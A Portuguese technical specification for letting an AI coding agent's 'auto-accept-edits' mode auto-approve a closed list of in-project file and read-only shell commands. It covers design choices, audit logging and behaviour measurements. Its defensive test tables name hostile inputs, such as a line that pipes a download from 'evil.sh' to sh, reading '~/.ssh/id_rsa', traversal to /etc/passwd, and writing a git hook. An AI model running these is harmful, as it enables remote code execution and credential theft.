

# F31. Shell de edição em auto-accept — Especificação Técnica

**Feature:** F31 Shell de edição em auto-accept
**Complexidade:** média (a decisão é simples; a análise do comando é que não é)
**Escopo:** `auto-accept-edits` passa a aprovar sem card uma lista fechada de comandos de shell que só mexem em arquivo, e só dentro do projeto
**UI:** sem tela nova. Card e chips: `docs/F03-workspace/{ui,copy}.md` §3.5
**Última atualização:** 2026-08-18
**Status:** v1 e v1.1 implementadas em 2026-08-19 (perguntas da §11 fechadas abaixo; v1.1 na §13)

---

## 1. Visão Geral Técnica

**O quê:** hoje `permissionPolicyDecision` decide por `toolName`: `Bash` sempre pergunta em `auto-accept-edits`. Esta feature acrescenta um segundo estágio, e só para esse nível: se o comando for uma linha simples cujo verbo está numa **lista fechada** de comandos de manipulação de arquivo, e se **todos** os caminhos que ele toca resolverem para dentro do diretório do projeto, a chamada é aprovada sem card. Qualquer dúvida cai no comportamento de hoje — abre o card.

**Por quê:** o nível existe para "edite arquivos sem me interromper", e na prática ele quase nunca se aplica, porque o agente frequentemente edita arquivo pelo shell. Medido ao vivo em 2026-08-18: três turnos seguidos pedindo escrita de arquivo, **todos** resolvidos com `printf … > arquivo` no Bash, quatro cards abertos, um deles expirado por timeout. O usuário leu isso como defeito do nível — e a leitura dele é razoável.

**Precedente:** o `acceptEdits` do Claude Code faz exatamente isso. A doc oficial (`code.claude.com/docs/en/permission-modes`) diz que o modo aprova, além das tools de arquivo, "common filesystem Bash commands like `mkdir`, `touch`, `rm`, `rmdir`, `mv`, `cp`, and `sed`, as well as specific PowerShell commands", com auto-aprovação limitada a paths dentro do working directory ou `additionalDirectories` e excluindo paths protegidos. O Cursor resolve o mesmo terreno por `terminalAllowlist` + `autoRun.block_instructions`.

**Escopo — Incluído:**

- Segundo estágio de decisão em `permission-policy.ts`, ativo **só** em `auto-accept-edits`
- Módulo puro novo de classificação de comando de arquivo (verbo + argumentos + destino)
- Resolução de path contra a raiz do projeto, com recusa por omissão
- Prefixo `cd <dir do projeto> &&` aceito antes do comando (ver §3.2)
- Fixtures adversariais como parte do critério de aceitação, não como extra

**Escopo — Excluído:**

- `supervised` e `full-access` (o primeiro pergunta tudo; o segundo já libera tudo)
- Redirecionamento de shell (`>`, `>>`, `tee`) — ver §3.2, é a exclusão que mais dói
- `rm` e `rmdir` na v1 — ver §3.2
- Sandbox de execução, syscall filtering, container: isto **não** é isolamento
- Regra configurável pelo usuário (`terminalAllowlist` do Cursor) — é F32 em potencial, não isto
- Mudar a allowlist por verbo do "Permitir todos" (já entregue, `bash-command-scope.ts`)

**Consome:** F03 (broker, gate, `permission-policy.ts`, `bash-command-scope.ts`), F13/F18 (raiz efetiva quando a thread roda em worktree).
**Provê:** `auto-accept-edits` que cumpre o que promete na maioria dos turnos de edição.

---

## 2. Impacto na Arquitetura

Nenhuma camada nova. O ponto de decisão continua sendo um só — `permissionPolicyDecision` —, e é isso que mantém a política auditável.

| Área | Caminhos | Papel |
|------|----------|-------|
| Política | `src/services/runner/permission-policy.ts` | novo estágio, só em `auto-accept-edits`; assinatura passa a receber `params` e a raiz do projeto |
| Classificação | `src/services/runner/file-command-classifier.ts` **(novo, puro)** | verbo → forma esperada de argumentos → lista de paths tocados |
| Segmentação | `src/services/runner/bash-command-scope.ts` | reusa `splitCommandSegments` / `commandVerb`, já entregues |
| Paths | `src/services/runner/project-path-scope.ts` **(novo)** | resolve path contra a raiz e responde dentro/fora/indecidível |
| Broker | `src/services/runner/permission-broker.ts` | passa `params` e a raiz da thread para a política |

---

## 3. Decisões Técnicas

### 3.1 Herdadas

`*.logic`/módulo puro testável fora de `.tsx` e fora do main; fail-closed em todo caminho de erro; política num lugar só; `tsc -b` como gate de tipos; nenhuma decisão de permissão derivada de texto livre do modelo.

### 3.2 Específicas da feature

| Decisão | Abordagem escolhida | Alternativa | Trade-off |
|---------|---------------------|-------------|-----------|
| Forma da regra | **Lista fechada de verbos**, cada um com a forma de argumentos que sabemos ler | Heurística ("parece inofensivo"), ou classificador por modelo (`block_instructions` do Cursor) | Lista fechada é auditável e testável; heurística erra em silêncio e o erro escreve em disco |
| Lista v1 | `mkdir`, `touch`, `cp`, `mv`, `sed` (só com `-i`), `printf`/`echo`/`cat` **sem** redirecionamento | Copiar a lista do Claude Code inteira | Ver as duas linhas seguintes |
| `rm` / `rmdir` | **Fora da v1.** Reavaliar depois de a feature rodar | Incluir, como o Claude Code | É o único verbo cujo erro não tem desfazer: apagar não gera diff para revisar, e o nosso fluxo de review (F03 Diff) só cobre o que passou por tool de arquivo. Um `mkdir` errado custa uma pasta vazia; um `rm` errado custa o trabalho do usuário |
| Redirecionamento (`>`, `>>`) | **Fora da v1**, mesmo sendo o caso que motivou a feature | Aceitar `printf 'x' > a.txt` quando o destino é do projeto | Ler redirecionamento com segurança exige tratar `2>&1`, `>|`, `&>`, fd numerado, `tee`, heredoc. É onde um parser meia-boca vira falso "dentro do projeto". O nudge de tool (`RUNTIME_SAFETY_PROMPT`, entregue) já ataca o caso pela origem: o agente passa a usar `Write` |
| Encadeamento | Recusa, **exceto** um `cd <dir do projeto>` como primeiro segmento | Recusar todo encadeamento; ou avaliar segmento a segmento | Sem a exceção a feature quase não dispara: o agente prefixa `cd "<projeto>" &&` em quase toda chamada. O `cd` só é aceito se o destino resolver para dentro da raiz, e ele passa a ser a raiz efetiva dos segmentos seguintes |
| Raiz do projeto | `projects.path` da thread; em thread de worktree (F13/F18), a raiz do worktree | Sempre `projects.path` | Filho em worktree escreve fora de `projects.path` por definição; usar a raiz errada reprovaria todo comando legítimo do filho |
| Path indecidível | Vira card | Tentar adivinhar | Glob (`*.ts`), variável (`$HOME`, `%USERPROFILE%`), substituição (`$(…)`), `~` de outro usuário: nenhum é resolvível sem executar. Indecidível é `ask`, sempre |
| `..` e symlink | Normalizar e comparar por prefixo **depois** de resolver; symlink que sai da raiz reprova | Comparar string crua | `proj/../../etc/passwd` passa em comparação de string. A checagem tem de ser em path resolvido, e `realpath` do que já existe |
| Shell no Windows | Detectar o shell efetivo do tool `Bash` antes de implementar; se for PowerShell, a lista v1 é a de verbos PowerShell (`New-Item`, `Copy-Item`, `Move-Item`) e não a POSIX | Assumir POSIX | Ler `cp` numa linha que o Windows executa como PowerShell é classificar um comando que não existe. Ver §11 |
| Onde a decisão mora | `permission-policy.ts`, o mesmo lugar de hoje | Dentro do broker | Um ponto de decisão só; o broker continua transporte |
| Auditoria | Toda auto-aprovação de shell grava `log_entries` com verbo e paths resolvidos | Silêncio, como as tools de arquivo | Isto é a única classe de auto-aprovação que depende de análise nossa. Quando errar, o registro é o que permite descobrir por quê |

### 3.3 Assumptions

| Assumption | Origem | Pode sobrescrever? |
|------------|--------|--------------------|
| `auto-accept-edits` continua sem card para as tools de arquivo | `permission-policy.ts` | não |
| Card por verbo do "Permitir todos" já entregue e é ortogonal a isto | `bash-command-scope.ts` (2026-08-18) | não |
| O usuário aceita paridade de comportamento com o Claude Code neste nível | decisão de produto, 2026-08-18 | sim |
| A feature é conveniência, não fronteira de segurança — e a doc do Claude Code diz o mesmo do mecanismo dela | doc oficial CC (`/permissions`) | não |

---

## 4. Visão Geral de Componentes

**Backend (não há frontend nesta feature)**

| Caminho | Novo/Modificado | Propósito |
|---------|-----------------|-----------|
| `src/services/runner/file-command-classifier.ts` | Novo (puro) | Verbo + argumentos → `{ kind: 'file-edit'; paths[] } \| { kind: 'unknown' }` |
| `src/services/runner/file-command-classifier.test.ts` | Novo | Tabela de casos, incluindo os adversariais de §10 |
| `src/services/runner/project-path-scope.ts` | Novo | `resolveWithinRoot(root, candidate)` → `'inside' \| 'outside' \| 'undecidable'` |
| `src/services/runner/project-path-scope.test.ts` | Novo | `..`, symlink, drive letter, UNC, path relativo, glob |
| `src/services/runner/permission-policy.ts` | Modificado | Estágio novo; assinatura ganha `params` e `root` |
| `src/services/runner/permission-policy.test.ts` | Modificado | Matriz nível × tool × comando |
| `src/services/runner/permission-broker.ts` | Modificado | Passa `toolInput` e a raiz efetiva da thread |
| `src/services/db/repositories/log-entries.ts` | Modificado | Registro `shell_edit_auto_approved` |

---

## 5. Contratos de API

Nenhum endpoint novo. Nenhuma mudança de wire: o `PreToolUse` já manda `toolInput`, e o card só deixa de aparecer.

---

## 6. Modelo de Dados

Nenhuma migração. `log_entries` recebe linhas novas com o payload `{ verb, paths, root }`.

---

## 7. Tratamento de Erros

| Situação | Resultado |
|---|---|
| Comando ilegível, verbo fora da lista, argumento em forma inesperada | `ask` (card), como hoje |
| Path fora da raiz ou indecidível | `ask` |
| Thread sem projeto, raiz vazia, `realpath` falha | `ask` |
| Exceção dentro do classificador | `ask` + log de erro — nunca `allow` por omissão |

A regra única: **a única saída nova é `allow`; todo o resto continua sendo o comportamento de hoje.**

---

## 8. Requisitos / regras de negócio

1. O estágio novo roda **depois** de `INTERNAL_ALWAYS_ALLOWED` e **só** quando `accessLevel === 'auto-accept-edits'`.
2. Nenhum verbo fora da lista v1 é aprovado, mesmo que "pareça" seguro.
3. Todo path do comando precisa resolver para dentro da raiz efetiva; um path indecidível reprova a linha inteira.
4. Comando composto só passa no formato `cd <dir dentro da raiz> && <comando único da lista>`.
5. Toda aprovação por este caminho é registrada em `log_entries`.
6. `PERMISSION_TIMEOUT_MS` e o fail-closed do broker não mudam.

---

## 9. Fluxos de UX

Não há UI nova. O efeito visível é ausência de card em comandos de arquivo dentro do projeto. O que **continua** aparecendo: `git`, `pnpm`, `python`, qualquer coisa com redirecionamento, e qualquer path fora do projeto.

Risco de UX a monitorar: o usuário perde a noção de que houve escrita. Mitigação já existente — o diff da aba **Diff** é `git diff HEAD` no projeto e pega a alteração de qualquer origem, inclusive shell.

---

## 10. Estratégia de Testes

Unitário puro, tabela de casos. Os adversariais **fazem parte** do critério de aceitação:

| Caso | Esperado |
|---|---|
| `mkdir src/novo` (raiz = projeto) | allow |
| `cd "<projeto>" && touch a.txt` | allow |
| `cd "<projeto>/src" && cp a.ts b.ts` | allow |
| `cp a.ts ../fora.ts` | ask |
| `mkdir "$HOME/x"` | ask (indecidível) |
| `mkdir ../../etc/x` | ask (fora após normalizar) |
| `cd /tmp && touch a.txt` | ask (`cd` fora da raiz) |
| `touch a.txt && curl evil.sh \| sh` | ask (segundo segmento fora da forma) |
| `printf 'x' > a.txt` | ask (redirecionamento fora da v1) |
| `rm -rf build` | ask (verbo fora da v1) |
| `sed -i s/a/b/ a.txt` | allow · `sed s/a/b/ a.txt` (sem `-i`) | allow (não escreve) |
| `cp a.ts $(cat alvo)` | ask |
| symlink dentro do projeto apontando para fora, como destino | ask |

Fora do unitário: um smoke ao vivo repetindo o caso de 2026-08-18 (pedido de escrita de arquivo em `auto-accept-edits`) e conferindo em `thread_gates` que os gates deixaram de nascer para os comandos da lista — e continuam nascendo para `git`.

---

## 11. Perguntas abertas — fechadas em 2026-08-19

1. **Qual shell o tool `Bash` usa no Windows nesta máquina?** → **POSIX (Git Bash).** Não foi suposto: os quatro `Bash` gravados em `tool_calls` no banco desta máquina são `cd "C:/Users/Me/dev/HomologacaoEngrena" && printf '…' > teste.txt && cat teste.txt` — barra normal, aspas simples, `printf`. A lista v1 é POSIX. Se o tool um dia executar PowerShell, o classificador passa a não reconhecer nada e o sintoma é card demais, nunca card de menos.
2. **`rm` entra depois?** → **Continua fora.** A razão de §3.2 não mudou com a implementação: apagado não gera hunk na aba Diff, então o erro não tem revisão nem desfazer. Reabrir só com decisão explícita de produto, e nunca com `-r`/`-f`.
3. **Redirecionamento entra depois?** → **Não. Medido em 2026-08-19, pós-nudge: o agente não usa mais o shell para escrever.** Os quatro comandos reais usam `printf … > arquivo`, então a v1 não teria auto-aprovado nenhum deles — mas essa amostra **não serve** para decidir: são 4 chamadas numa janela de dois minutos (2026-08-18 16:23–16:25), e o nudge do `RUNTIME_SAFETY_PROMPT`, que existe justamente para tirar o agente do shell, só entrou no build das 21:58 do mesmo dia. Toda a evidência é anterior ao remédio que ela avaliaria. O que ela estabelece é a família do shell (§11.1), não a frequência de `>`.

   **Regra de parada combinada, para o resultado não ser racionalizado depois:** três turnos do roteiro B em `auto-accept-edits` pedindo escrita de arquivo, com o pedido redigido **sem** nomear a ferramenta (nomear mede a instrução, não o comportamento); depois `select name, count(*) from tool_calls group by name`. Zero `Bash` com `>` → esta pergunta fecha como resolvida pelo nudge, e a v1 fica valendo pelos casos de `mkdir`/`mv`/`cp`. Um ou mais → implementar a **forma estreita** abaixo, nunca redirecionamento genérico.

   **Forma estreita, guardada para o caso de a resposta mudar:** exatamente um operador, `>` ou `>>`; sem dígito nem `&` imediatamente antes (mata `2>`, `&>`); sem `|` nem `&` imediatamente depois (mata `>|`, `>&2`); nenhum `<` na linha (mata heredoc e here-string); verbo à esquerda de uma lista que **emite texto e não lê arquivo** (`printf`, `echo`; `cat` fica fora); destino é um token único e passa pelo mesmo `resolveWithinRoot` dos demais caminhos. Isso não é "ler redirecionamento" — é reconhecer uma forma e recusar todo o resto. **Não implementar sem uma medição nova que a justifique.**

### Medição de 2026-08-19 (a que fechou a pergunta 3)

Três turnos `auto-accept-edits`, provider Claude, perfil e projeto isolados, pedidos redigidos **sem** nomear ferramenta ("crie um arquivo…", "troque a palavra…", "crie a pasta e dentro dela…"). Build a partir de `main`, portanto **com** o nudge do `RUNTIME_SAFETY_PROMPT`.

| O que se mediu | Resultado |
|---|---|
| Ferramentas de escrita usadas | `Write` × 2, `Edit` × 1 |
| Escritas por shell | **zero** |
| Comandos com `>` ou `>>` | **zero** |
| `Bash` no total | 1, e era **leitura**: `cat -A notas.txt \| head -50` |
| Auto-aprovações de F31 | zero — correto, `cat \| head` são dois segmentos com pipe e verbos fora da lista |
| Efeito em disco | os três arquivos pedidos apareceram com o conteúdo certo |

Compare com a amostra de 2026-08-18 (pré-nudge): quatro chamadas, **todas** `printf … > arquivo`. A mudança de comportamento é o resultado que a §11.3 esperava, e ela vem do nudge, não desta feature. Amostra pequena (n=3), mas unânime e na direção oposta à anterior.

### O que a medição revelou de novo: shell de **leitura**

O único `Bash` do teste era read-only, e ficou dois minutos preso no card até expirar por timeout. Isso é incoerente com a própria semântica do nível: `auto-accept-edits` já auto-aprova as tools `Read`, `Glob`, `Grep` e `LS`, mas o mesmo ato pelo shell abre card.

Como candidato a v1.1, ler é melhor aposta que redirecionamento: leitura não tem como danificar arquivo, e o agente já tem a capacidade por tool. O que precisa ser decidido antes é a forma — `cat a \| head` são dois segmentos, então a regra de encadeamento de §3.2 teria de admitir pipe entre verbos de leitura, o que é mais do que o `cd` de prefixo concede hoje. **Registrado como pergunta 5, não como decisão.**

5. **Verbos de leitura entram numa v1.1?** → **Sim, implementada. Com `find` fora**, ao contrário da proposta original — ver §13.
4. **A auto-aprovação deve aparecer no work log?** → **Não; `log_entries` basta.** O work log da timeline é montado a partir de `tool_calls`, e a chamada `Bash` já aparece lá com nome e status — o usuário vê que um shell rodou. O que faltava não era o *que*, era o *porquê não teve card*, e isso é diagnóstico: vai para `log_entries` kind `tool`, que é o que Registros (F08) mostra. Duplicar na timeline daria duas linhas para o mesmo fato.

## 13. v1.1 — shell de leitura (2026-08-19)

**Por quê:** o nível `auto-accept-edits` já auto-aprova as tools `Read`, `Glob`, `Grep` e `LS`. O mesmo ato pelo shell abria card, e a medição de §11.3 mostrou o custo disso ao vivo: o único `Bash` dos três turnos era `cat -A notas.txt | head -50`, read-only, e ficou dois minutos preso no card até expirar por timeout. Ler pelo shell ser mais difícil que ler por tool é incoerência do nível com ele mesmo, não política.

**Por que é aposta melhor que redirecionamento:** leitura não escreve. O erro de classificar mal um `cp` custa um arquivo sobrescrito; o de classificar mal um `cat` custa, no pior caso, texto a mais no contexto do agente.

**Lista v1.1:** `cat`, `head`, `tail`, `wc`, `ls`.

**`find` ficou fora**, contra a proposta original desta pergunta. A gramática dele não é "flags e caminhos": `-exec`, `-execdir`, `-ok`, `-delete`, `-fprint` e `-fls` executam e escrevem, e os predicados consomem valor em posição variável. É a mesma armadilha do `sed -e`, num verbo em que errar não custa um arquivo: custa execução arbitrária. `grep` ficou fora pelo mesmo motivo (`-f arquivo`, padrão em posição variável). Quem precisa dos dois tem `Glob` e `Grep` como tool.

**Dois riscos próprios da leitura, e o que os trata:**

| Risco | Tratamento |
|---|---|
| Ler fora da borda (`cat ~/.ssh/id_rsa`, `cat ../fora/x`, `cat .git/config`) | Mesma resolução de caminho da escrita, sem exceção — inclusive `.git` protegido e `realpath` contra symlink |
| **Travar o turno** | `tail -f` nunca retorna e `cat`/`wc`/`head` sem argumento ficam esperando stdin. Por isso `f`/`F` estão fora do `tail`, e o **primeiro** segmento do pipeline precisa nomear caminho (ou ser `ls`, o único que faz sentido sem argumento). Um teste executa `tail -f` de propósito com timeout de 3 s para provar que a exclusão não é excesso de zelo |

**Pipe:** aceito, mas **só** entre verbos da lista de leitura, até 3 estágios. Encadear leitura não compõe poder — dois `cat` continuam sendo dois `cat` — e a forma natural de ler no shell é encadeada, como o próprio comando medido mostra. Um único segmento fora da lista reprova a linha inteira, então `cat a.txt | sh` não passa. Encadear **escrita** continua recusado: `mkdir a | mkdir b` abre card.

**Nota sobre flag que consome valor** (`head -n 50 a.txt`): o valor **não** é pulado, entra na lista de caminhos e passa pela mesma resolução. Parece descuido e é o contrário: `50` só é aceito porque resolve para dentro da borda, e um `-n /etc/passwd` seria recusado. Pular o valor é que abriria buraco.

**Auditoria:** leitura também grava `log_entries`, com rótulo próprio (`leu sem card` vs `escreveu sem card`). Quem for auditar um `allow` indevido precisa saber de qual dos dois estágios ele saiu.

**Testes:** `classifyReadCommand` (tabela + adversariais), matriz da política, encanamento no broker, e no `shell-edit-escape.test.ts` a categoria `leitura` do corpus de fuga mais um bloco diferencial próprio — nele o invariante é mais forte que o da escrita: leitura liberada tem de deixar o disco **idêntico**, dentro e fora da borda.

## 12. Desvios da spec na implementação

| Desvio | Motivo |
|---|---|
| `.git` tratado como caminho protegido, mesmo dentro da raiz | Não estava escrito na spec, mas está no precedente que ela cita: o `acceptEdits` do Claude Code exclui caminhos protegidos. Sem isso, um `cp` para `.git/hooks/pre-commit` seria auto-aprovado, e o hook é código que o git executa no próximo commit — o nível viraria execução arbitrária sem card |
| `resolveWithinRoot` acompanhada de `resolveAgainstRoot` | A spec previa só a primeira (`'inside' \| 'outside' \| 'undecidable'`). A segunda devolve o caminho absoluto já resolvido, que é o que o registro de auditoria precisa gravar |
| `permissionPolicyOutcome` ao lado de `permissionPolicyDecision` | A política é pura de decisão e não pode gravar log; quem grava é o broker, e para isso precisa saber **por que** foi `allow`. `permissionPolicyDecision` continua existindo com a mesma assinatura, agora delegando |
| `gate.ts` não recebeu o estágio novo | `allowOpenPermissionGates` (upgrade de nível mid-turn) continua chamando a política sem contexto, então um card já aberto de `Bash` segue não sendo liberado pelo upgrade — exatamente como antes da feature. Fora do escopo de §4; sem regressão |
| `VERB_RULES` é `Map`, não `Record` | Um teste adversarial pegou: com `Record`, `VERB_RULES['__proto__']` devolve `Object.prototype`, cujos campos numéricos viram `NaN` e fazem `args.length < NaN` ser falso — a linha `__proto__ a b` era classificada como comando de arquivo válido |
